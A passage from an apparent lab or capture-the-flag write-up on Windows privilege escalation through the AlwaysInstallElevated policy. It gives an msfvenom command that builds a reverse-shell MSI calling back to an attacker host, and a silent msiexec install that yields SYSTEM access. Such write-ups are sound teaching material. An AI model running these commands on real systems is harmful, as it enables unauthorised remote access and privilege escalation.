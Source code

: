 We also found `AlwaysInstallElevated` is set to 1.

> AlwaysInstallElevated is a policy to install a Windows Installer package with elevated (system) privileges.
{: .prompt-info }

Let's create a reverse shell msi file.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI-IP> LPORT=<PORT> -f msi > setup.msi
```

We upload the file and install it using the following command.

```terminal
runas /user:dev-datasci-lowpriv "msiexec  /qn /i C:\Users\dev-datasci-lowpriv\Downloads\setup.msi"
```

We will be prompt for a password so we put the one we found.

![system](6.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References

